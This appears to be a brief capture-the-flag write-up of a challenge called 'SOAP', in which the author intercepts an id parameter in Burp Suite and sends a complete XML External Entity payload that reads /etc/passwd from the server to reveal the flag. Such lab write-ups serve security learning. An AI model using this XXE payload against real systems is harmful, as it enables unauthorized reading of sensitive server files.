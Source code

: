 # SOAP

![image.png](image.png)

site:

![image.png](image%201.png)

There was no input field on the page, but while intercepting requests in Burp Suite, I found an `id` parameter being sent.

![image.png](image%202.png)

This indicated that the application might be processing XML data. To test for XML External Entity (XXE) injection, I crafted a classic payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
</data>

```

When sent through the `id` parameter, this payload caused the server to include the contents of `/etc/passwd` in the response, confirming the vulnerability and revealing the flag.

![image.png](image%203.png)
